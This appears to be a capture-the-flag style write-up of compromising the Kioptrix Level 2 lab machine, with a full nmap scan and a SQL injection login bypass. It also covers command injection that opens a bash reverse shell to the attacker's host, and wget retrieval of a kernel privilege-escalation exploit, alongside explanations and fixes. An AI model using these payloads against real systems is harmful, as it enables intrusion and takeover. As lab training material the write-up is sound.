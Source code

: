 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Wed May 25 22:52:16 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.65.134
Nmap scan report for 192.168.65.134
Host is up (0.0021s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            627/udp   status
|_  100024  1            630/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_http-server-header: Apache/2.0.52 (CentOS)
|_ssl-date: 2022-05-25T23:43:02+00:00; -3h09m37s from scanner time.
630/tcp  open  status   1 (RPC #100024)
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4C:24:00 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -3h09m37s

TRACEROUTE
HOP RTT     ADDRESS
1   2.11 ms 192.168.65.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 25 22:52:49 2022 -- 1 IP address (1 host up) scanned in 33.84 seconds
```
</br>

Port 80, Website Main page: </br>
![main_page](images/kioptrixv2/main_page.png) </br>
This admin panel was vulnerable to SQL Injection, I was able to get inside using this payload: </br>
```' or '1'='1``` </br>

![index_page](images/kioptrixv2/index_page.png) </br>
The web server was asking for an address to ping, and this ping utility script was vulnerable to code injection: </br>
![code_injection](images/kioptrixv2/code_injection.png) </br>
To insert an additional command to the ping utility I did this: ```127.0.0.1 && whoami``` </br>
To gain a reverse shell I did this: </br>
Kali Linux: ```nc -nlvp 1234``` </br>
Web Server: ```127.0.0.1 && bash -i >& /dev/tcp/192.168.65.128/1234 0>&1``` </br>
**Vulnerability Explanation:** </br>
```OS Command Injection:``` </br>
OS Command Injection (also known as shell injection) is a web security vulnerability that allows an
attacker to execute an arbitrary operating system (OS) commands on the server that is running an
application, and typically fully compromise the application and all its data. </br>
```SQL Injection:``` </br>
SQL injection occurs when specially crafted user input is processed by the receiving program in a way
that allows the input to exit a data context and enter a command context. A successful SQL injection
exploit can read sensitive data from the database,modify database data,execute administration operations
on the database,recover the content of a given file present on the DBMS file system and in some cases
issue commands to the operating system. </br>
**Vulnerability Fix:** </br>
```OS Command Injection:``` </br>
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS
commands from application-layer code. In virtually every case, alternate ways of implementing the
required functionality are using safer platform APIs.
If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input
validation must be performed. </br>
```SQL Injection:``` </br>
Most instances of SQL injection can be prevented by using parameterized queries (also known as
prepared statements) instead of string concatenation within the query. </br> </br>
**Initial Shell Screenshot:** </br>
![shell_poc](images/kioptrixv2/shell_poc.png) </br>
# Privilege Escalation:
I checked the kernel version of the machine with the command: ```uname -a``` </br>
![uname_cmd](images/kioptrixv2/uname_cmd.png) </br>
I found an exploit on [Exploit-DB](https://www.exploit-db.com/exploits/9542) </br>
**File Transferring:** </br>
I opened an HTTP server on my Kali machine with this command:
```python -m http.server 80``` </br>
Since wget command was installed on the machine, I downloaded the exploit to the /tmp folder: </br>
```wget 192.168.65.128/kernel.c``` </br>
Compiled it: </br>
```gcc kernel.c -o kernel``` </br>
Gave it Execution Permissions: </br>
```Chmod +x kernel``` </br>
**Vulnerability Exploited:** CentOs Kernel 2.6 Exploit. </br>
**Vulnerability Explanation:** The udp_sendmsg function in the UDP implementation in (1) net/ipv4/udp.c
and (2) net/ipv6/udp.c in the Linux kernel before 2.6.19 allows local users to gain privileges or cause a
denial of service (NULL pointer dereference and system crash) via vectors involving the MSG_MORE
flag and a UDP socket. </br> </br>
**Proof Of Screenshot:** </br>
![pe_poc](images/kioptrixv2/pe_poc.png)

